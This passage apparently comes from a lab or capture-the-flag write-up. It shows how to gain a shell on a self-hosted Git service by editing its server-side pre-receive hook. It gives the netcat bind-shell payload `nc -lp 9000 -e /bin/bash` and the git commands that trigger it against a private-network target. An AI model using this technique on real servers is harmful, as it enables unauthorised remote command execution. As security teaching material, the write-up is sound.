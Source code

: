 If we refresh the page, we can see that the repository now contains our `README.md` file.

![testRepository2](/assets/{{ imgDir }}/testRepository2.png)

By exploring the tabs above the repository, it is possible to notice that there is support for [Git hooks](https://www.atlassian.com/git/tutorials/git-hooks). The configurations for Git hooks can be found by pressing the `Settings` tab and then the `Git Hooks` subtab.

![findingHooks](/assets/{{ imgDir }}/findingHooks.png)


Git hooks are commonly used to trigger the execution of different shell commands on certain git-related events. Git hooks can be divided into server-side and client-side hooks, which execute the shell commands on the server or the client respectively. For our purposes, we are interested in the server-side hooks since these could allow us to execute arbitrary shell commands on the target host. There are three types of server-side Git hooks. The first two are `pre-receive` and `update` which both execute related shell commands before handling a push from a client. The last type is `post-receive` which executes its related shell commands after handling a push from a client

![githook1](/assets/{{ imgDir }}/githook1.png)

By clicking the `pre-receive` hook, we discover an example script which we can edit.

![githook2](/assets/{{ imgDir }}/githook2.png)

We can replace this example script with shell commands to trick the target into handing us an interactive shell. To do this, we can overwrite the example script with a bind shell command such as `nc -lp 9000 -e /bin/bash`. This command will instruct the target to provide anyone connecting to port 9000 with an interactive shell. Once we have edited the script, we can press the `Update Hook` button to save our modifications. 

![githook3](/assets/{{ imgDir }}/githook3.png)

The next step is to perform a `git push` to the repository to trigger the `pre-receive` hook which, in turn, will trigger the execution of the bind shell payload. To do this, we can simply add some random characters to our `README.md` file, mark the file to be commited, perform the commit and push the commit to the target. 

{% highlight none linenos %}
┌──(kali㉿kali)-[/tmp/x/testRepository]
└─$ @@echo "Defcon" >> README.md@@
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x/testRepository]
└─$ @@git add README.md@@    
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x/testRepository]
└─$ @@git commit -m "Test"@@
[master c5900bd] Test
 1 file changed, 1 insertion(+)
                                                                                                                    
┌──(kali㉿kali)-[/tmp/x/testRepository]
└─$ @@git push@@
Username for 'http://10.6.6.24:3000': @@Test@@
Password for 'http://Test@10.6.6.24:3000': 
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Writing objects: 100% (3/3), 254 bytes | 254.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
{% endhighlight %}
